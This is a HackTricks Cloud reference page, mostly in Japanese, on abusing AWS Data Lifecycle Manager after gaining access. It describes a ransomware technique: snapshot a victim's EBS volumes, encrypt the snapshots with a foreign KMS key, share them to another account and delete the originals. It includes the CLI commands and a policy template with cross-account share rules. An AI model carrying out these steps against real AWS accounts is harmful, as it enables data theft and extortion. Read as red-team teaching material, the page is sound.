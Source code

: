 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## データライフサイクルマネージャー (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

ランサムウェア攻撃は、できるだけ多くのEBSボリュームを暗号化し、その後現在のEC2インスタンス、EBSボリューム、およびスナップショットを削除することで実行できます。この悪意のある活動を自動化するために、他のAWSアカウントのKMSキーでスナップショットを暗号化し、暗号化されたスナップショットを別のアカウントに転送するAmazon DLMを使用できます。あるいは、管理しているアカウントに暗号化なしでスナップショットを転送し、そこで暗号化することもできます。既存のEBSボリュームやスナップショットを直接暗号化するのは簡単ではありませんが、新しいボリュームやスナップショットを作成することで可能です。

まず、インスタンスID、ボリュームID、暗号化ステータス、アタッチメントステータス、ボリュームタイプなどのボリュームに関する情報を収集するコマンドを使用します。

`aws ec2 describe-volumes`

次に、ライフサイクルポリシーを作成します。このコマンドはDLM APIを使用して、指定されたボリュームの毎日のスナップショットを指定された時間に自動的に取得するライフサイクルポリシーを設定します。また、スナップショットに特定のタグを適用し、ボリュームからスナップショットにタグをコピーします。policyDetails.jsonファイルには、ターゲットタグ、スケジュール、暗号化のためのオプションのKMSキーのARN、スナップショット共有のためのターゲットアカウントなど、ライフサイクルポリシーの詳細が含まれており、被害者のCloudTrailログに記録されます。
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
ポリシー文書のテンプレートはここにあります:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
